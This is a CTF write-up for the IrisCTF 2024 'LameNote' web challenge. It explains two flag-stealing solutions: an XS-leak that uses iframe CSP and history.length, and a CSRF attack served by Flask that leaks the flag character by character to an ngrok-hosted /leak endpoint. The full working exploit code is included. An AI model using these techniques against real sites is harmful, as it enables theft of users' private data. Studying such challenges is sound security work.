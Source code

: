 ```yaml
---
title: LameNote
date: 2024-01-08
tags: web
categories: IrisCTF 2024
---
```


written by {% person hartmannsyg %}

This was one of the web challenges in IrisCTF 2024, I spent quite a while trying it during the CTF (I was unsuccessful) and also spent quite some time understanding it after the CTF. Thanks to everyone who helped answer my (many) questions in the IrisCTF discord lol.

Also tomato said "If you are done understanding it can you make a writeup for it" so here we are.

The challenge is as follows:
- submit a URL
- admin bot will create a note with a flag in it at https://lamenote-web.chal.irisc.tf/
- it will then visit your url, and your website has to steal the flag, somehow

The site also has a search functionality, and if there is only one note, it will directly display the note. If there are none it simply says "No notes". Otherwise, it will simply give you a list. When the site is directly displaying the note (as there is only one note that fits the query), an image will be requested. This differentiation is quite important for the solution.

We also know that the flag matches `irisctf{[a-z_]+}` so our charlist is only `_abcdefgihkjlmnopqrstuvwxyz`

## "Intended Solution" by sera

sera has given us the solve html:

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body

      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', 'img-src \'none\';')
      f.src = url;
      let rCount = 0;
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000));
      f.remove();
      f.src = 'https://blah.ngrok-free.app/csp';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 100));
      let ll = f.contentWindow.history.length;
      document.body.innerHTML = "";
      return ll;
    }
    let known = "";
    const urlParams = new URLSearchParams(window.location.search);
    if(urlParams.get("known") !== null) known = urlParams.get("known");
    let l = await go("!"); // start
    console.log("start", l);
    for(let c of '_abcdefgihkjlmnopqrstuvwxyz}') {
      let l2 = await go(known + c);
      console.log(l2, l, known, c);
      fetch("/?log=" + l2 + "|" + l + "|" + known + "|" + c);
      if(l2 == l) {
        known += c;
        l = l2;
        fetch("/?log=" + known);
        break;
      };
      l = l2;
    }
      if(!known.endsWith("}")) {
        window.open("/?known=" + known);
        window.close();
        while(1) {
          await new Promise(r => setTimeout(r, 1000));
          console.log("idle");
        }
      }
    })();
    </script>
</body>
</html>
```

I *really* did not understand what was going on here so I'll unpack what I've known:

### using `img-src 'none'` to create a navigation binary

{% ccb lang:html gutter1:1-20 highlight:9 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(url) {
        f = document.createElement('iframe')
        f.setAttribute('sandbox', 'allow-same-origin');
        f.setAttribute('csp', "img-src 'none';")
        f.src = url; // go to the site
        document.body.appendChild(f)
    }
    // it will return "No notes", will succesfully navigate to page
    await go('https://lamenote-web.chal.irisc.tf/search?query=text_is_not_in_any_note') 
    // it will return the note with the flag, except that HAS AN IMAGE, so it will not successfully navigate
    await go('https://lamenote-web.chal.irisc.tf/search?query=irisctf') 
    })()
    </script>
</body>
</html>
{% endccb %}

(we wrap everything in `(async function(){ ... })()` to run the code asynchronously)

The `go(url)` function creates an iframe and goes to the specified url. However, due to the specified csp of `img-src 'none'`, it is unable to navigate to the page. This is because the page's csp is **weaker** than the iframe's csp, so the site is unable to render

So the idea now is that we can guess character by character, and when it fails we know it is the correct one:

{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{<span class="subst">p</span> ❌ Navigation Unsuccessful, note with 'irisctf{p' exists
/search?query=irisctf{p<span class="subst">a</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">b</span> ✅ Navigation Successful
/search?query=irisctf{p<span class="subst">c</span> ✅ Navigation Successful
...
/search?query=irisctf{p<span class="subst">l</span> ❌ Navigation Unsuccessful, note with 'irisctf{pl' exists
{% endccb %}

### xs-leak via navigation

(xs-leak stands for Cross-site leak)

Here is a [relevant page](https://xsleaks.dev/docs/attacks/navigations/) regarding this exploit.

We have a method for *finding* the flag, as long as we can tell the difference between a **successful** navigation and an **unsuccessful** one.

In the navigation xs-leak, we see that we can deduce whether or no the navigation is successful by looking at the iframe's history via `contentWindow.history.length;`. However, this only works when the `src` is the origin (i.e. `http://0.tcp.ap.ngrok.io:11568/`, which is there our site is hosted), so we redirect the iframe back to our site:

{% ccb lang:html gutter1:1-28 diff_add:13-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

However, regardless of whether it errors or not, the history only increments one at a time:

{% ccb %}
! history=13
a history=14
b history=15
c history=16
...
y history=38
z history=39
{% endccb %}

Apparently, the solution to this is to run the iframe twice, like so:

{% ccb lang:html gutter1:1-36 diff_add:12-19 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 500)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

{% ccb html:true %}
! history=3
a history=5
b history=7
c history=9
d history=<span class="number">10</span> (history length only increased once = navigation failed = flag starts with d)
{% endccb %}

With this, we can basically test for the flag now, but there is one additional improvement that sera's solve script used, which is to *remove and then re-add the iframe to the document*

{% ccb lang:html gutter1:1-38 diff_add:22,24 %}
<!DOCTYPE html>
<html>
<body>
    <script>
    (async function(){
    async function go(body) {
      let url = "https://lamenote-web.chal.irisc.tf/search?query=irisctf{" + body
      f = document.createElement('iframe')
      f.setAttribute('sandbox', 'allow-same-origin');
      f.setAttribute('csp', "img-src 'none';")
      f.src = url; // go to the site
      f.onload = () => {
          rCount += 1;
          // change location after onload once
          setTimeout(() => {
              f.onload = null
              f.src = url;
          }, 100)
      }
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      f.remove();
      f.src = 'http://0.tcp.ap.ngrok.io:11568/solve';
      document.body.appendChild(f)
      await new Promise(r => setTimeout(r, 1000)); // sleep 1000ms to wait for it to load 
      let length = f.contentWindow.history.length;
      console.log(`${body} history=${length}`)
      document.body.innerHTML = "";
      return length;
    }
    await go('!')
    await go('a')
    await go('b')
    await go('c')
    })();
    </script>
</body>
</html>
{% endccb %}

What this does is that the `history.length` does not increment *unless* there is an error. Once again I'm not exactly sure why this happens

{% ccb html:true %}
! history=3
a history=3
b history=3
c history=3
d history=<span class="number">4</span> (history length increased = navigation failed = flag starts with d)
{% endccb %}

## Trixter's Solution (CSRF)

{% ccb caption:trixter url:https://discord.com/channels/1051808836593397781/1051819274995515392/1193886755900895322 lang:python %}
from flask import Flask, request
import sys

app = Flask(__name__)

flag_prefix = 'irisctf{'
chars = set('abcdefghijklmnopqrstuvwxyz_}')
ngrok_url = 'https://[...]'
reset_called = False

@app.route("/")
def index():
    return ("""
<!DOCTYPE html>
<html>
    <head>
    </head>
    <body>
        <script>
            const target = 'https://lamenote-web.chal.irisc.tf';
            function createNote(title, text, image) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("srcdoc", `
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
<body>
    <form action="${target}/create" method="POST">
    <input type="hidden" name="title" value="${title}" />
    <input type="hidden" name="text" value="${text}" />
    <input type="hidden" name="image" value="${image}" />
    <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
    <\/script>
</body>
</html>
`);
                document.body.appendChild(iframe);
            }

            function searchNote(search) {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${target}/search?query=${encodeURIComponent(search)}`);
                document.body.appendChild(iframe);
            }

            const prefix = '%s';
            const charset = 'abcdefghijklmnopqrstuvwxyz_}';
            const remote = '%s';
            for(const char of charset) createNote('trixter', prefix + char, `${remote}/leak?char=` + char);

            setTimeout(() => {
                const iframe = document.createElement("iframe");
                iframe.setAttribute("src", `${remote}/reset`);
                iframe.onload = () => {
                    for(const char of charset) searchNote(prefix + char);
                };
                document.body.appendChild(iframe);
            }, 2000);
        </script>
    </body>
</html>
""" % (flag_prefix, ngrok_url)).strip()

@app.route("/reset")
def reset():
    global reset_called

    reset_called = True
    return "reset triggered"

@app.before_request
def leak():
    global reset_called, chars, flag_prefix

    if request.method == "OPTIONS" and reset_called:
        char = request.args.get("char", "")
        if char in chars:
            print('Flag does not have %s' % char)
            chars.remove(char)

            if len(chars) == 1:
                flag_prefix += list(chars).pop()
                print('Flag Prefix:', flag_prefix)

                reset_called = False
                chars = set('abcdefghijklmnopqrstuvwxyz_')

        return ""
{% endccb %}

What this does is more "straightforward"(?):
- create an iframe for each possible character
- each iframe creates a note with **the image being our `/leak?char=` url** and the contents being:
{% ccb %}
irisctf{a
irisctf{b
irisctf{c
irisctf{d
...
{% endccb %}
- we then query all of them. If the character is **wrong**, there will only be one note displayed, and it will attempt to fetch **our `/leak?char=` url as an image**. However, if the character is **correct**, there will be 2 results: the **actual flag note** and **the one we injected**. This means **our `/leak?char=` url will not be fetched**
{% ccb html:true %}
/search?query=irisctf{<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{<span class="subst">p</span> ❌ no /leak?char=<span class="subst">p</span>, another note with 'irisctf{p' exists, this is the correct one
/search?query=irisctf{p<span class="subst">a</span> ✅ /leak?char=a
/search?query=irisctf{p<span class="subst">b</span> ✅ /leak?char=b
/search?query=irisctf{p<span class="subst">c</span> ✅ /leak?char=c
...
/search?query=irisctf{p<span class="subst">l</span> ❌ no /leak?char=<span class="subst">l</span>, another note with 'irisctf{pl' exists, this is the correct one
{% endccb %}